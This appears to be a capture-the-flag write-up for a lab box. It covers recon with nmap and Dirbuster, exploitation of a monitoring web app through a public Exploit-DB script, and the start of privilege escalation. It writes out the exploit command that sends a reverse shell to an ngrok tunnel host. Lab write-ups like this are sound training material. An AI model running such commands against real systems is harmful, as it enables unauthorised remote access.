 # Welcome to Secured-Monitor Solution

After pasting the 3 flags you had got the IP of the box i.e. `100.27.12.78`

# Recon

Lets get started with nmap as always and we get port 80 open thats great!

![Port Scan](https://i.ibb.co/6RvyYyD/portscan.jpg)

Now lets go to `http://100.27.12.78/` we see a default ubuntu page!

![Default Ubuntu Page](https://i.ibb.co/DLbXPPq/default-ubuntu.jpg)

We have a /robots.txt but thats useless.

Dirbuster it 

![Dirburst](https://i.ibb.co/5spR4MY/dirblast.jpg)

and we get a juicy file at `http://100.27.12.78/monitor/`

![Monitor Page](https://i.ibb.co/jMbv3JP/monitor1.jpg)

At the end we see there is a version `1.7.6m` and a login page!

The version that made me trigger that its not custom made lets google about it!

We find something interesting!

![ExploitDB](https://i.ibb.co/rb7HnWP/exploitdb.jpg)

lets run it :3 with netcat and ngrok (incase if you dont have)

# Exploitation

Run the python exploit which we have got from `https://www.exploit-db.com/exploits/48980`

##Command to run

`python expl.py http://100.27.12.78/monitor/ 2.tcp.ngrok.io 10090`

In the netcat we get a reverse shell :3

![Rev SHell](https://i.ibb.co/mzJVYnv/reverse-shell.jpg)

On crawling around the server we find that the `root.txt` but we cannot read it as we are `www-data`


# Privelege Escalation

So I have 2 different ways of privelege escalation

i> Intended Way
ii> Unintended Way

## Intended Way

There is a file called `todo.txt`

On opening we see

```
www-data@ip-172-31-57-243:/home$ cat todo.txt
Always read books from library especially OS books!
You can also try the most simplest encryption method!
```
Interesting!

We also see a program called `devs_note.py`

![devs_note](https://i.ibb.co/q7kd1QY/devsnote.jpg)

From `todo.txt` we see read about OS which is a python module imported in program!








